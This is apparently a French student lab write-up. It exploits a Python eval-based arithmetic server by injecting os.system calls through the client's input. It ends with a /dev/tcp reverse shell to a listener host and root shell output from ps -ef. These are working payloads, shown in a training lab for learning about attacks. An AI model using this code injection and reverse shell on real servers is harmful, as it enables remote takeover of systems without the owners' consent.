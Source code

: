 [Capture du scan](./Captures/nmap.pcapng)

🌞 **Connectez-vous au serveur**

```bash
$ cat client.py | grep 'host ='
host = '10.33.76.217'  # IP du serveur

$ python3 client.py 
Veuillez saisir une opération arithmétique : 1+1

$ cat /var/log/bs_client/bs_client.log

2023-11-30 11:03:34 INFO Connexion réussie à 10.33.76.217:13337
2023-11-30 11:03:36 INFO Message envoyé au serveur 10.33.76.217 : 1+1
2023-11-30 11:03:36 INFO Réponse reçue du serveur 10.33.76.217 : b'2'
```

Exécute les opérations arithmétiques envoyés par le client sur le serveur.

## 2. Exploit

🌞 **Injecter du code serveur**

[Code utilisé](./Scripts/client_exploit.py)

```BASH
$ cat client.py | grep 'host ='
host = '10.33.76.195'  # IP du serveur

$ python3 client.py 
Veuillez saisir une opération arithmétique : __import__('os').system('ping 10.33.76.225')
```

[Pings du serveur](./Captures/exploit.pcapng)

## 3. Reverse shell

🌞 **Obtenez un reverse shell sur le serveur**

```bash
$ nc -lnvp 5555
```

Depuis un autre termninal :

```bash
$ python3 client.py
Veuillez saisir une opération arithmétique : __import__('os').system('sh -i >& /dev/tcp/10.33.76.225/5555 0>&1')
```

🌞 **Pwn**

```bash
sh-5.1# whoami 
whoami
root

sh-5.1# ps -ef
ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 12:00 ?        00:00:00 /usr/lib/systemd/systemd --switched-root --system --deserialize 31
root           2       0  0 12:00 ?        00:00:00 [kthreadd]
root           3       2  0 12:00 ?        00:00:00 [rcu_gp]
root           4       2  0 12:00 ?        00:00:00 [rcu_par_gp]
root           5       2  0 12:00 ?        00:00:00 [slub_flushwq]
root           6       2  0 12:00 ?        00:00:00 [netns]
root           8       2  0 12:00 ?        00:00:00 [kworker/0:0H-events_highpri]
```